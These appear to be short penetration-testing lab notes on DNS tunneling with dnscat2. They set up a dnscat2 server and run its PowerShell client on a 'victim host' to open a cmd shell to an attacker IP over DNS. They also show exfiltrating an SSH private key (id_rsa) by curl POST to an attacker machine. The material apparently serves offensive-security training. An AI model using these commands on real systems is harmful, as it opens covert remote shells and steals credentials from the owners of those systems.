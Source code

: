 
## DNSCAT

https://github.com/iagox86/dnscat2


Setting up DNSCAT
```shell-session
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

Interact with tunnel with https://github.com/lukebaggett/dnscat2-powershell

On victim host
```powershell-session
Import-Module .\dnscat2.ps1
```
```powershell-session
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

Interacting with victim host within dnscat
```shell-session
dnscat2> window -i 1
```


Exporting Files with http POST (Start python http server on attack machine)

From victim run
curl -X POST https://10.10.15.187:443/upload -F 'files=@id_rsa' --insecure
